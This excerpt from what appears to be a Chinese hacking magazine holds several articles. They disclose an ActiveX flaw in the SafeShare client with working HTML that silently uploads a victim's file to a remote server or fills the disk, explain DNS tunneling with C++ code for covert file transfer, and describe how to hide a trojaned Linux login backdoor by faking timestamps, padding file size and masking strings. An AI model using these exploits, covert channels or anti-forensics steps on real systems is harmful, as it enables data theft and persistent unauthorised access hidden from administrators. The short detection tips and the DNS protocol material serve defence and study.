- 一次艰辛的寻址之旅（王晓松）.......................................30

### 密界寻踪

- RSA 的攻击方法（修炼中的柳柳）....................................17

### Android 远程监控技术

- Android 远程监控系统设计之传感器控制（秦妮）.....................32
- 2013 年第 8 期杂志特约选题征稿.....................................35
- 2013 年征稿启事.....................................................39

### 惊爆赛孚数据安全系统多个 0Day 漏洞

文/图 爱无言

作为企业和政府机构，文件安全一直是困扰保密管理的难题。国内许多公司都开发出相应的文件管理系统，目的就是为了对文件数据进行可控管理，提高安全等级，防止失泄密问题发生。在对某企业内部使用的网络进行安全审计时，发现该企业使用了一款叫做“赛孚 SafeShare 数据安全系统”的软件，根据该软件的说明书了解到这款软件是用来进行管控网络内文件的，用户需要使用该软件的客户端来访问服务器上的文件，从而保护服务器上文件的安全。在进一步的了解中发现，“赛孚 SafeShare 数据安全系统”是获得过国家保密局数据安全检测认证的产品，同时该软件具有多个国家发明专利技术。如此优秀的软件引起了我的注意，它的安全性是不是也同样符合软件本身的介绍呢？为此，在本着学习的态度下，对该软件进行了初步的安全测试，测试结果令人吃惊，发现“赛孚 SafeShare 数据安全系统”存在诸多的安全问题。抛开数据安全管控上的问题，“赛孚 SafeShare 数据安全系统”存在可以被远程控制以及远程攻击的多个安全漏洞，下面要介绍的漏洞就是其中的一部分。

在使用“赛孚 SafeShare 数据安全系统”时，作为用户电脑是需要安装客户端的，如图 1 所示。
图 1

用户通过该客户端访问存放文件的服务器。在客户端向系统进行安装时，会注册一个名为“officeviewer.ocx”的组件，该组件用来处理 Office 文档文件，提供了多个外部接口，如图 2 所示。
图 2

正是这个组件为我们打开了漏洞挖掘的窗口。在“officeviewer.ocx”组件提供的外部接口中，有多个接口可以用于网络连接，允许用户上传或者下载文件到本地，这些外部接口有 FtpDownloadFile、FtpUploadFile、HttpAddPostFile。我们对其中的“HttpAddPostFile”做了简单测试，测试用的网页代码如下：

```html
<OBJECT id=evil classid="clsid:6BA21C22-53A5-463F-BBE8-5CF7FFA0132B"></OBJECT>
<script>
document.write(evil.HttpAddPostFile("c:\\s.rar"));
document.write(evil.HttpPost("http://192.168.1.10/get.asp"));
</script>


```

保存上述代码到 HTML 文件中，将该文件放置在 Web 服务器上。代码中的“s.rar”是用户电脑中 C 盘下的一个文件。使用 IE 浏览器访问这个 HTML 文件，同时使用 WsockExpert 监听 IE 浏览器发出的数据包，发现 IE 浏览器在访问测试网页时，竟然会将“s.rar”试图发送给远程服务器！其监听数据包如图 3 所示。
图 3

不可思议的事情就这么发生了，这里“s.rar”被 IE 浏览器在用户毫不知情的情况下发送给了远程服务器，如果“s.rar”被替换为用户电脑上的某个隐私文档，那么，你可以想象后果会有多么严重。

问题是，能够向外发送文档的外部接口不仅仅是上述的“HttpAddPostFile”，前面提到的那些接口都可以起到同样的作用。

有时候，你可能不想进行如此恶意的攻击，想弄一个恶作剧，或者是想把某个人的电脑逐步瘫痪，那么，我可以告诉你，“officeviewer.ocx”组件提供了一个让人哭笑不得的外部接口，利用该接口你可以慢慢地将某个用户的电脑 C 盘填满，这个接口就是“HttpDownloadFileToTempDir”。“HttpDownloadFileToTempDir”的原型如下：

```vb
Function HttpDownloadFileToTempDir (
    ByVal WebUrl As String,
    [ ByVal WebUsername As Variant ],
    [ ByVal WebPassword As Variant ]
)
```

它只有一个简单的参数“WebUrl”，即想要被下载文件的网址。测试该外部接口的网页代码为：

```html
<OBJECT id=evil classid="clsid:6BA21C22-53A5-463F-BBE8-5CF7FFA0132B"></OBJECT>
<script>
document.write(evil.httpDownloadFileToTempDir("http://192.168.1.10/bigfile.xx"));
</script>


```

其中，“bigfile.xx”是一个非常大的文件，用来填满用户的 C 盘空间，当然，也可以使用循环法，利用“HttpDownloadFileToTempDir”，设定下载体积空间较小的文件，逐步填满用户的系统剩余空间。如此一来，用户会发现自己的系统逐步出现空间不足的提示，无法正常工作。

直接利用的安全漏洞有了，恶作剧的安全漏洞也有了，而这些仅仅是“赛孚 SafeShare 数据安全系统”客户端存在的问题。面对如此优秀的软件，我们希望赛孚科技能够及时修补漏洞，加强系统安全，提高系统使用可靠性，为用户提供更好的服务。最后，凡是利用本文技术进行违法活动的，杂志与作者概不负责。

（完）

### DNS 隧道的实现原理

文/图 木羊

在实现 DNS 隧道之前，先要明白为什么需要 DNS 隧道。我们假想一个场景，在一个控制严密的局域网中，防火墙只允许 DNS 协议通信，实现的方法有很多种，最简单的就是只允许访问远端的 53 端口，这种限制不难突破，只要将远端端口设为 53，或者做个打开 53 端口的服务器中转即可。做得更精细的防火墙可能会解析 DNS 包，这时我们要与局域网内的某台机器通信，或者内网想要访问网络，就需要用到 DNS 隧道。DNS 隧道其实就是将网络包或其他信息夹在 DNS 协议包中传递。

### DNS 隧道的理论原理

要明白如何建立 DNS 隧道，需要先了解 DNS 协议。DNS 协议是 TCP 或 UDP 的上层协议，一般以 UDP 为多。之所以叫上层，大概因为很多教材都把 TCP/IP 的五层协议画成汉诺塔的样子，协议是一层一层叠上去的，但实际上协议之间的组成结构更像是俄罗斯套娃，低层协议套在高层协议前面，如图 1 所示。
图 1

可以看出，IP 层以上的协议大概可以分为两部分，第一部分是协议头（header），第二部分是协议传递的信息（data）。上一层协议信息的内容就保存在下一层协议信息的 data 中。对应到 DNS 隧道，就是先把我们要传递的信息套进 DNS 协议的 data 中，然后把 DNS 协议的内容套进 UDP 协议的 data 中，最后通过 Socket 编程收发 UDP 协议包，DNS 隧道就实现了。

### Socket 通信的具体过程

相信黑防的朋友对于 Socket 编程都不会太陌生，我们只要制定好了采用 TCP 还是 UDP 协议通信，然后填写必要的网络信息，如 IP 地址和端口号，一条 Socket 通信信道就写好了。在 Socket 的一端传入信息，信息就会根据通信协议被添加上 TCP 或 UDP 报头，传递到另一端，Socket 会自动完成拆包工作，最后吐出来的就只有传入的信息了。为了更好地说明这个过程，我用 Python 写了一个简单的 UDP 发送 Socket，主要代码如下：

```python
#coding:utf8
#woosheep

import os, socket, time

addr = ('8.8.8.8', 53)
skt = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
data = 'hello www.hacker.com.cn'
skt.sendto(data, addr)


```

Python 是一种脚本语言，只需要下载一个 Python 解析器就可以直接执行上面的代码。Python 的另一大优势是代码简洁，上述代码很容易看出是指定了用 UDP 协议向 8.8.8.8 的 53 端口发送数据，数据内容为“hello www.hacker.com.cn”。目标地址 8.8.8.8 是一个 DNS 服务器，将会监听 53 端口的数据请求，直接发到那里是能够建立 Socket 连接的，这样就可以省下自己写服务端的时间了。

现在我们来看看实际发出的数据包内容，如图 2 所示。
图 2

请注意看 ASCII 栏的标蓝。根据前文，我们填写的数据内容“hello www.hacker.com.cn”应该在 UDP 包的 data 中。在此之前，有很长的一段“乱码”，这段乱码就是 Socket 为我们添加的 UDP 报头（header），解析后的内容如图 3 所示。
图 3

要看明白这段“乱码”需要了解 UDP 协议格式以及 IP 协议格式，这将颇费篇幅，不过用来讲明一段基于 UDP 协议的 Socket 通信过程，知道我们通过 Socket 发送的信息是放在 UDP 协议的 data 中已经足够了。个人认为，会写 Socket 只是起步，写了 Socket 知道实际怎么实现才算入门。看到这里，恭喜你已经入门了。

### DNS 隧道的实现算法分析

既然我们已经知道了在哪里添加和怎么发送 DNS 协议包，剩下的就只有如何生成 DNS 协议包了。不过这个临门一脚，可不太好踢出去呢。DNS 协议包有两种：查询包和应答包。比如我们要解析黑防的域名 www.hacker.com.cn，首先就要向 DNS 服务器的 53 端口发送一个 DNS 查询包，服务器查询到结果后，会返回一个应答包。两种包的格式是不一样的。

首先我们看看查询包，如图 4 所示。

图4

是不是看得头晕眼花？还是那句话，要讲明白这段“乱码”颇费篇幅，需要先讲明白 DNS 的查询包格式。由于我们要的只是通过 DNS 包“夹带”信息，因此只要关注哪里具有“夹带”的空间即可。

有三处，分别是 ID 域、查询域和附加域。DNS 查询包 ID 域的值为随机生成，长度为一个 WORD，在查询包的前 16 位，此例的 ID 为 0x6169。由于值是随机生成的，因此防火墙不可能对 ID 域进行检测，隐蔽性最好。如果将这个 ID 看作状态向量，理论上可以表示 65535 种不同的状态，包含的信息量已经非常大了。

不过，用 ID 域夹带信息有两大问题：一是必须规定好状态向量，不能简单地夹带其他数据包内容；二是应答包的 ID 域的值必须一致，否则无法完成信息交互（解决方法请见下文）。因此，为了让 DNS 隧道成为名副其实的“隧道”，能够夹带数据包的完整内容，我们将目光转向操作空间更大的查询域。下面先来看看查询域的数据内容，如图5所示。

```text
00 00 00 00 00 00 03 77 77 77 06 68 61 63 6b 65 72 03 63 6f 6d 02 63 6e 00 00 01 00 01
...... .www.hacker.com.cn .....
```

图5

请看标蓝。查询域主要分为两部分，第一部分是域名（Name），此例为 www.hacker.com.cn；第二部分是查询信息，包括 Type 和 Class。由于第二部分必须按 DNS 查询包格式填写，可操作空间太小，因此能夹带信息的只有第一部分。第一部分看起来很简单，似乎是域名的 ASCII 码，但如果真按 ASCII 码填是不符合格式的。以“www”为例，对应的 ASCII 码为“77 77 77”，前面是 0x3，后面是 0x6，这两个值都不是“.”的 ASCII 码。

实际上，查询域将域名以“.”为界分开，上述域名实际被拆成“www”“hacker”“com”和“cn”四个字符串，每个字符串前加上字符串的长度，如“www”就加上 0x3，合起来就构成了查询域的域名部分。

之所以细写这部分，是因为有些“变态”的防火墙会对查询域的域名部分进行细致的检测，不合法的查询域很可能会被丢弃。此外，防火墙可能还会检测数据是否为字母的 ASCII 码，这就比较麻烦了，需要做额外的转换或其他处理。

最后介绍附加域。附加域也许是最最适合夹带信息的地方了。它没有任何格式的要求，没有长度限制，构造非常简单，只需要简单地将信息添加到 DNS 查询包的末尾即可。唯一的问题也许是需要祈祷防火墙不会强制丢弃带有附加域的查询包。

查询包到这就介绍完了。然而，要完成 DNS 隧道，只有发送信息是不行的，还需要能够接收信息才能完成整个通信过程。这项工作，将由 DNS 服务器发送的应答包来完成。上述查询包对应的应答包如图6所示。

```text
Transaction ID: 0x6169
Flags: 0x8180 Standard query response, No error
Questions: 1
Answer RRs: 1
Authority RRs: 0
Additional RRs: 0

Queries
- www.hacker.com.cn: type A, class IN
  - Name: www.hacker.com.cn
  - Type: A (Host address)
  - Class: IN (0x0001)

Answers
- www.hacker.com.cn: type A, class IN, addr 116.255.248.187
  - Name: www.hacker.com.cn
  - Type: A (Host address)
  - Class: IN (0x0001)
  - Time to live: 3 minutes, 34 seconds
  - Data length: 4
  - Addr: 116.255.248.187 (116.255.248.187)
```

图6

应答包的结构和查询包有许多相似的地方，因此可以夹带信息之处也非常类似，实际上只比查询包多了个应答域。应答域可以夹带信息的空间只有用来表示 IP 地址的一个 DWORD，空间不大，但用来解决上文提到的查询—应答包的 ID 域必须一致、无法实现交互的问题是足够了。

DNS 隧道的实现原理就介绍到这里，相信已经把 DNS 隧道的几种实现可能都介绍清楚了，剩下的工作就是根据实际需要选择最合适的方案写代码——那可是体力活，就不赘述了。我是木羊，下次再聊。

## DNS协议实现远程文件管理

文/图 好好学习 竹林飘客

本文主要介绍在完成“DNS 协议实现远程文件管理”时研究和解决的两个主要问题：基于 DNS 协议的客户端服务器通信方法和文件管理数据通信模型。

## 基于 DNS 协议的客户端服务器通信方法

上一期杂志刊登的文章《DNS 隧道反弹式 CMD Shell 的实现》对 DNS 隧道通信技术进行了介绍，本文的主要思想是从这篇文章中学习来的，但在实际测试时对通信方案进行了些许改变。下面简单介绍下 DNS 隧道通信的原理，以及本文采用的 DNS 隧道通信方案。

### 1）DNS 隧道通信原理

DNS 隧道通信即为在合法的应用层 DNS 协议的通信数据包中封装我们的通信数据，就像通过一个隐藏的隧道进行数据传输，可以顺利绕过大部分按照 DNS 协议格式进行检测的工具检测。实现该技术，需要深入理解和分析 DNS 协议格式和通信过程，发掘协议格式中可以利用的部分进行数据传输。

DNS 定义了一个用于查询和响应的报文格式，如图 1 所示是这个报文的总体格式。下面简单介绍一下 DNS 的报文格式。

图 1 DNS 查询和响应的一般格式

报文由 12 字节的首部和 4 个长度可变的字段组成。

### （1）报文首部

标识字段由客户程序设置并由服务器返回结果。客户程序通过它来确定响应与查询是否匹配。

16 bit 的标志字段被划分为若干子字段，如图 2 所示。

图 2 DNS 报文首部中的标志字段

我们从最左位开始依次介绍各子字段：

- QR 是 1 bit 字段：0 表示查询报文，1 表示响应报文。
- opcode 是一个 4 bit 字段：通常值为 0（标准查询），其他值为 1（反向查询）和 2（服务器状态请求）。
- AA 是 1 bit 标志，表示“授权回答（authoritative answer）”，该名字服务器是授权于该域的。
- TC 是 1 bit 字段，表示“可截断的（truncated）”。使用 UDP 时，它表示当应答的总长度超过 512 字节时，只返回前 512 个字节。
- RD 是 1 bit 字段，表示“期望递归（recursion desired）”。该比特能在一个查询中设置，并在响应中返回。这个标志告诉名字服务器必须处理这个查询，也称为一个递归查询。如果该位为 0，且被请求的名字服务器没有一个授权回答，就返回一个能解答该查询的其他名字服务器列表，这称为迭代查询。在后面的例子中，我们将看到这两种类型查询的例子。
- RA 是 1 bit 字段，表示“可用递归”。如果名字服务器支持递归查询，则在响应中将该比特设置为 1。在后面的例子中可看到大多数名字服务器都提供递归查询，除了某些根服务器。
- 随后的 3 bit 字段必须为 0。
- rcode 是一个 4 bit 的返回码字段。通常的值为 0（没有差错）和 3（名字差错）。名字差错只有从一个授权名字服务器上返回，表示在查询中指定的域名不存在。
- 随后的 4 个 16 bit 字段说明最后 4 个变长字段中包含的条目数。对于查询报文，问题（question）数通常是 1，而其他 3 项则均为 0。类似的，对于应答报文，回答数至少是 1，剩下的两项可以是 0 或非 0。

### （2）DNS 查询报文中的问题部分

问题部分中每个问题的格式如图 3 所示，通常只有一个问题。

图 3 DNS 查询报文中问题部分的格式

查询名是要查找的名字，它是一个或多个标识符的序列。每个标识符以首字节的计数值来说明随后标识符的字节长度，每个名字以最后字节为 0 结束，长度为 0 的标识符是根标识符。计数字节的值必须是 0~63 的数，因为标识符的最大长度仅为 63（某些情况下计数字节的最高两比特为 1，即值 192~255，将用于压缩格式）。不像我们已经看到的许多其他报文格式，该字段无需以整 32 bit 边界结束，即无需填充字节。

图 4 显示了如何存储域名 gemini.tuc.noao.edu。

图 4 域名 gemini.tuc.noao.edu 的表示

### （3）DNS 响应报文中的资源记录部分

DNS 报文中最后三个字段，回答、授权、附加信息字段均采用一种称为资源记录 RR（Resource Record）的相同格式。

| 字段 |
|---|
| 域名 |
| 类型 |
| 类 |
| 生存时间 |
| 资源数据长度 |
| 资源数据 |

图 5 资源记录字段

### 2）本文采用的 DNS 隧道通信方案

文章《DNS 隧道反弹式 CMD Shell 的实现》中给出了 DNS 隧道通信的一个实现方案，简单地说是构造带有额外信息的 DNS 请求包（传输层为 UDP 协议），额外信息的类型为 16，即额外数据为文本类型，将自己要传输的数据放在额外信息的额外数据部分进行传送。

本文在最初实现时尝试了这种方案，但在用 Wireshark 抓包时发现，构造的通信数据包能够被正确解析，但被报为“Malformed Packet”。在自己构造数据包发送的实验中，数据包被报为“Malformed Packet”是常事，主要原因是数据包不符合协议的格式，但本文在测试时能够被正确解析，因此，还是放弃了这种方案。也可能上一期作者所采用的方案笔者还没有掌握到。

于是，自己再次分析协议格式，通过多次测试验证方案，按如下构造 DNS 数据包首部：

- 1. 标识字段：任意 2 字节值；
- 2. 标志字段：0x8000（首位为 1 表示该 DNS 数据包为应答包）；
- 3. 问题、资源记录、授权资源记录、额外资源记录数分别为 1、1、0、1。

对于其后的一个查询问题、一个应答、一个额外信息，数据放在额外信息中。查询问题和应答根据协议要求进行设置即可。对于额外信息部分，经测试发现，TYPE 字段设置为 1 时，RDATA 字段可放置任意长度（在一个数据包容量范围内）数据，且该字段前 4 字节被解析为 IP 地址。因此，可将通信数据从 RDATA 字段第 5 个开始存放。RDLENGTH 字段存放数据的长度，供数据接收方进行数据段提取。采用该方案进行实现并测试，能够被正常解析为 DNS 数据包。

## 文件管理数据通信模型

在实现远程文件管理的过程中，为了保证数据传输的正确性和效率，设计了文件管理数据的通信模型。文件管理数据通信模型按照文件管理的功能有所不同。

### 1）目录浏览数据通信模型

- 对于目录浏览功能，数据通信过程如下：
- 1. 本地主机目录浏览命令（获取远程主机盘符、子目录）封装到 DNS 数据包发送给远程主机；
- 2. 远程主机接收 DNS 数据包解析出命令；
- 3. 远程主机完成命令操作，将结果数据封装到 DNS 数据包发送给本地主机；
- 4. 本地主机接收 DNS 数据包解析出结果。

### 2）文件下载上传数据通信模型

- 对于文件的下载和上传，由于文件一般不能通过单个 DNS 数据包进行传输，因此要进行文件的分块传输。为了保证文件传输的正确性和传输效率，在经过多重方案测试后，以文件上传为例，设计的通信模式如下：
- 1. 本地主机文件上传命令（获取远程主机盘符、子目录）封装到 DNS 数据包发送给远程主机，等待接收确认包；
- 2. 远程主机接收 DNS 数据包解析出文件上传命令，并发送确认包，等待接收上传文件路径；
- 3. 本地主机发送上传文件路径，并等待确认包；
- 4. 远程主机提取出文件路径，创建文件对象用于文件存储，并发送确认包，等待接收文件；
- 5. 本地主机从头至尾将上传文件按特定块大小封装到 DNS 数据包中发送，每发送一块等待确认包，然后继续发送，直到文件块发送完毕，发送“文件发送完毕”命令；
- 6. 远程主机接收文件分块存入文件，并发送确认包，然后等待接收下一文件分块，如果收到“文件发送完毕命令”，则停止文件接收。

对于本地主机，在文件上传过程中的核心代码如下：

```cpp
DWORD WINAPI Thread_Upload_File(LPVOID lpParameter)
{
    m_Progress_upload_file.SetPos(1);
    CString str_Down_load_File;
    str_Down_load_File.Format(_T("%s"), "上传文件");
    char *sendBuf_tep = (LPSTR)(LPCTSTR)str_Down_load_File;

//DNS处理
Rdlenth = strlen(sendBuf_tep);
Store_Data(sendBuf_tep, Rdlenth);

//发送“上传文件”命令
send_blog=sendto(sockConn, send_Buf,
    Rdlenth+102, 0, (SOCKADDR*)&addrClient, len);
if(send_blog == -1){
    AfxMessageBox("上传文件命令发送失败!", MB_OK, NULL);
    return 0;
}
else
{
    //如果接收到远程主机确认命令，则继续发送上传文件路径
    recv_blog =
    recvfrom(sockConn, recv_Buf, 1024, 0, (SOCKADDR*)&addrSrv, &len);
    if(recv_blog == -1)
    {
        AfxMessageBox("接收信息出错!", MB_OK, NULL);
        return 0;
    }
    CString down_load_file_path;
    char send_path[128];
    memset(send_path, 0, 128);
    m_Edit_Upload_file_dir.GetWindowText(send_path, 128);
    int send_path_len = strlen(send_path);
    send_path[send_path_len++] = '\\';
    char* file_name = (LPSTR)(LPCTSTR)File_Name;
    for(int i = 0; i < (int)strlen(file_name); i++)
        send_path[send_path_len + i] = file_name[i];

    //DNS处理
    Rdlenth = strlen(send_path);
    Store_Data(send_path, Rdlenth);
    send_blog=sendto(sockConn, send_Buf,
        Rdlenth+102, 0, (SOCKADDR*)&addrClient, len);
    if(send_blog == -1){
        AfxMessageBox("上传文件路径发送失败!", MB_OK, NULL);
    }

    recv_blog =
    recvfrom(sockConn, recv_Buf, 1024, 0, (SOCKADDR*)&addrSrv, &len);
    if(recv_blog == -1)
{
    AfxMessageBox("接收信息出错!", MB_OK, NULL);
    return 0;
}

char local_file_path_char[1024];
memset(local_file_path_char, 0, 1024);
strcpy_s(local_file_path_char, (LPSTR)(LPCTSTR)Local_FilePath);

int size;
HANDLE handle=CreateFile(local_file_path_char, GENERIC_READ, 0, 0, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);
if (handle != INVALID_HANDLE_VALUE)
{
    size = GetFileSize(handle, NULL);
    CloseHandle(handle);
}

int file_size = 0;
DWORD dwRead;
BOOL bRet;
HANDLE hFile=CreateFile(local_file_path_char, GENERIC_READ, 0, 0, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);
while(true)
{
    char read_buf[512];
    memset(read_buf, 0, 512);
    bRet=ReadFile(hFile, read_buf, 512, &dwRead, NULL);
    if(bRet==FALSE)
    {
        AfxMessageBox("Read Buf ERROR!", MB_OK, NULL);
        break;
    }
    else
        if (dwRead==0)
        {
            Sleep(100);
            CString end_send;
            end_send.Format(_T("%s"), "文件发送完毕");
            char *sendBuf_tem = (LPSTR)(LPCTSTR)end_send;

            //DNS处理
        }
}
```

```cpp
Rdlenth = strlen(sendBuf_tem);
Store_Data(sendBuf_tem, Rdlenth);

send_blog = sendto(sockConn, send_Buf, Rdlenth + 102, 0, (SOCKADDR*)&addrClient, len);
if(send_blog == -1)
{
    AfxMessageBox("发送信息失败!", MB_OK, NULL);
    return 0;
}
AfxMessageBox("文件上传完毕!", MB_OK, NULL);
break;
}
else
{
    //DNS处理
    Rdlenth = strlen(read_buf);
    Store_Data(read_buf, 512);

    send_blog = sendto(sockConn, send_Buf, 512 + 102, 0, (SOCKADDR*)&addrClient, len);
    if(send_blog == -1)
    {
        AfxMessageBox("发送信息失败!", MB_OK, NULL);
        return 0;
    }

    file_size += dwRead;
    m_Progress_upload_file.SetPos(int(100 * file_size / size));
}
recv_blog = recvfrom(sockConn, recv_Buf, 1024, 0, (SOCKADDR*)&addrSrv, &len);
if(recv_blog == -1)
{
    AfxMessageBox("接收信息出错!", MB_OK, NULL);
    return 0;
}
};
CloseHandle(hFile);
}
return 0;
}
```

对于远程主机，在文件上传过程中的核心代码如下：

```cpp
void upload_file()
{
    //确认收到文件下载命令
    send_blog =
    sendto(sockClient, TM, 104, 0, (SOCKADDR*)&addrSrv, len_SOCKADDR);
    if(send_blog == -1){
        return;
    }

    //接收上传文件路径数据
    char file_path[1024];
    memset(file_path, 0, 1024);
    recv_blog =
    recvfrom(sockClient, file_path, 1024, 0, (SOCKADDR*)&addrSrv, &len_SOCKADDR);
    if(recv_blog == -1)
    {
        return;
    }

    //从DNS数据包中提取出上传文件路径
    memset(recv_Buf, 0, 1024);
    unsigned short len;
    len = (file_path[96] << 8) + file_path[97];
    for(int i = 0; i < len; i++)
        recv_Buf[i] = file_path[102 + i];

    //根据上传文件路径创建文件对象
    DWORD dwWrite;
    BOOL bRet;
    HANDLE hFile = CreateFile(recv_Buf, GENERIC_WRITE, 0, 0, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, 0);

    //发送确认包开始进行上传文件接收
    send_blog =
    sendto(sockClient, TM, 104, 0, (SOCKADDR*)&addrSrv, len_SOCKADDR);
    if(send_blog == -1){
        return;
    }

    //循环进行文件接收，直到文件接收完毕
    while(true)
    {
        char recv_buf[1024];
        memset(recv_buf, 0, 1024);
        //接收文件分块
        recv_blog =
        recvfrom(sockClient, recv_buf, 1024, 0, (SOCKADDR*)&addrSrv, &len_SOCKADDR);
        if(recv_blog == -1)
        {
            break;
        }

        //从DNS数据包中提取出文件分块
        memset(recv_Buf, 0, 1024);
        unsigned short len;
        len = (recv_buf[96] << 8) + recv_buf[97];
        for(int i = 0; i < len; i++)
            recv_Buf[i] = recv_buf[102 + i];

        //若DNS数据包中是文件发送完毕指令，则关闭文件对象，停止文件接收
        check.Format(_T("%s"), recv_Buf);
        if(check.Compare(_T("文件发送完毕")) == 0)
        {
            CloseHandle(hFile);
            break;
        }

        //将提取出的文件分块数据存入文件
        bRet = WriteFile(hFile, recv_Buf, len, &dwWrite, NULL);
        if(bRet == FALSE) {
            break;
        }

        //发送确认数据包
        send_blog =
        sendto(sockClient, TM, 104, 0, (SOCKADDR*)&addrSrv, len_SOCKADDR);
        if(send_blog == -1){
            return;
        }
    }
    return;
}


```

经过测试，这么设计文件传输正确性得到保障，文件传输延迟较低，可根据文件传输速率等需要设置分块大小。

## 总结与展望

本文在参考相关资料的基础上，通过自己的测试研究，实现了一个简单的基于 DNS 协议的远程文件管理系统。该系统符合通过 DNS 协议传输数据的要求，能够保证文件管理功能的正确性和有效性。但由于笔者时间和水平有限，只是初步实现了原型系统，还有很多问题值得下一步深入研究：

- 基于 DNS 协议传输数据的其他实现方式：共享 DNS 套接字；
- 结合最新 DNS 隧道检测技术研究，发掘更隐蔽更有效的 DNS 隧道通信方法；
- 为了确保文件传输的安全性，需在传输前对文件数据进行加密处理。

## Linux后门技术研究之login后门的完善

文/图 Blackcool

作为有经验的 Linux 系统管理员，可能很容易发现我们对 login 做的手脚。首先是使用系统命令“strings”可以查看 login 文件中的字符串信息，能看到后门程序中的所有字符串信息，如图 1 所示，我们的密码、原 login 备份位置、bash 路径都暴露出来了，那怎么做才能将其隐藏呢？我们这里使用几个小技巧来实现。
图 1

### 加密密码字段

我们的思路是将密码字段进行加密存储，后门程序接受到密码后将密码加密运算后进行比对判断。此时就要完成两件事，一是对密码进行加密，二是在后门程序中增加加密功能函数。那么采用什么算法加密呢？为了演示方便，我们使用 DES 算法，也就是使用 crypt() 函数。首先写个字段加密工具，代码如下：

```c
#include <unistd.h>
main(int argc, char *argv[])
{
    if (argc != 3) {
        printf("usage: %s <password> <salt>\n", argv[0]);
        exit(1);
    }
    printf("%s\n", crypt(argv[1], argv[2]));
}


```

编译生成 gen 程序，然后执行“./gen passWORD hack”获得密文“haSpLXHVajPvg”。第二步就是修改后门代码了，修改两处即可。一是将 PASSWORD 变量定义为密文，将原代码修改为“#define PASSWORD "haSpLXHVajPvg"”即可；二是登录后门验证密码的时候，需要先将获得的密码加密再进行比对，将原代码中比对部分改为“if (!strcmp(crypt(display,"hack"),PASSWORD))”即可。重新编译生成新的 login 文件，编译的时候不要忘记添加 crypt 库，使用命令“gcc -o login -s login.c -lcrypt”进行编译，再使用 strings 看一下是不是已经没有原来的密码字段了呢？如图 2 所示。
图 2

### 编码关键路径

经过上面的修改后，可以看到在图 2 中仍然含有一些敏感路径，当然也可以使用上面的方法进行加密，就不多说了，使用其他加密解密算法也是可以的，只要在使用前进行解密就好了。

### 以假乱真

有经验的管理员会发现我们的 login 程序的 strings 输出与正常的 login 还是有很大不同的，怎么能让我们后门程序的 strings 输出与正常的 login 类似呢？下面介绍一个简单的方法，就是在程序中增加一个字符串数组，数组内容就是正常的 login 程序的 strings 输出。这步比较简单，类似加花指令，在 login.c 代码中增加一个字符串数组“char strings[] = "";”，在引号中填入正常 login 程序的 strings 输出结果，重新编译即可。

### 时间空间

查找后门首先想到的就是文件时间，后门文件和系统文件的时间可能是不一样的，因此我们需要将后门文件的时间修改成和系统一样的时间。使用“ls -l”命令查看 bin 文件夹下其他文件的时间，如图 3 所示。

```bash
kdev@kdev-VirtualBox:/bin$ ls -l mv
-rwxr-xr-x 1 root root 112488 4月 1 2012 mv
kdev@kdev-VirtualBox:/bin$ ls -l pwd
-rwxr-xr-x 1 root root 26220 4月 1 2012 pwd
```

图 3

可以看到系统文件基本都是 2012 年 4 月 1 日创建的，那么我们的后门肯定不是那时候的了，使用“touch -t”命令修改后门时间，将后门修改为 2012 年 4 月 1 日，如图 4 所示。

```bash
kdev@kdev-VirtualBox:/bin$ ls -l login
-rwxr-xr-x 1 root root 7311 1月 5 02:17 login
kdev@kdev-VirtualBox:/bin$ sudo touch -t 201204010000 login
[sudo] password for kdev:
kdev@kdev-VirtualBox:/bin$ ls -l login
-rwxr-xr-x 1 root root 7311 4月 1 2012 login
```

图 4

时间问题搞定了，下面就是空间的问题了。后门程序的大小和原来 login 程序的大小也是不一样的，下面通过几个系统命令来修改程序大小。

首先是查看后门程序和原来 login 文件的大小，如图 5 所示。

```bash
kdev@kdev-VirtualBox:/bin$ ls -l login /sbin/logins
-rwxr-xr-x 1 root root 7311 4月 1 2012 login
-rwxr-xr-x 1 root root 43312 1月 5 02:16 /sbin/logins
```

图 5

可以看到两个文件大小相差 43312-7311=36001，我们使用 dd 命令拷贝指定大小的块，如图 6 所示。

```bash
kdev@kdev-VirtualBox:/bin$ dd if=/sbin/logins of=/tmp/tmp bs=36001 count=1
1+0 records in
1+0 records out
36001 bytes (36 kB) copied, ...
```

图 6

获得 tmp 文件后，使用 cat 命令将文件连接到后门文件。注意这里要使用 root 权限，对 bin 文件夹下文件进行写操作是要有 root 权限的，如图 7 所示。再次查看文件大小，两个文件已经一样了，但会发现后门文件的时间又变了，使用 touch 命令再次修改即可。

```bash
root@kdev-VirtualBox:/bin# cat /tmp/tmp >> login
root@kdev-VirtualBox:/bin# ls -l login /sbin/logins
-rwxr-xr-x 1 root root 43312 3月 9 14:05 login
-rwxr-xr-x 1 root root 43312 1月 5 02:16 /sbin/logins


```

图 7

### 检测手段

关于后门的常用手工检测方法有以下几种：

- 使用命令 `md5sum` 对现有 `/bin/login` 文件作校验，与以前的值作比较；
- 使用 Red Hat Linux 的 RPM 校验：`# rpm -V util-linux`；
- 查看系统进程，查找 `login -h xxx.xxx.xxx.xxx` 字样。

当然，也可以使用一些辅助工具进行查看。到这里 login 后门基本就结束了，这个后门比较简单，容易上手，适合初学者入门，以后将会和大家继续分享其他 Linux 后门技术。

## IRP的穿越之旅

文/图 王晓松

穿越很容易让我们想起前段时间大火的宫廷穿越剧，那里的穿越类似时光机，从一个时空进入另一个时空，但我们这里的穿越是一种类似传递的概念，就像我们看过的一个小游戏，几个人交替，两人口口相传一段话或者一件事情，结果往往与最初的说法相比，面目全非，让人忍俊不禁。生活中的传递出现点偏差可能无关紧要，但在精密的计算机世界里，任何信息的传递都要无比精确。在这篇文章里，我们来看看 IRP 在设备之间是如何完好无损、不辱使命地完成穿越的。

### 单层驱动程序的穿越

为了使讲解结构清晰、思路清楚，我们首先介绍 Windows 驱动的整体框架结构，然后从一个单层驱动入手，再过渡到多层驱动的讲解。

### 1）Windows 驱动的整体框架

当应用程序想与底层硬件交互时，其程序的流程如图 1 所示。
图 1  单层驱动框架

- 系统 DLL 会调用系统服务中的同名函数，只是这时系统已经从用户模式进入了系统模式；
- 在系统服务实现的内部，会调用 I/O 管理器中提供的函数；
- I/O 管理器根据系统服务提供的参数，构造 IRP，定位驱动对象，从而确定驱动对象中对应的分发函数，进入驱动程序执行相应的代码；
- 驱动程序与硬件交互，完成对应的读写数据和设置配置的操作。

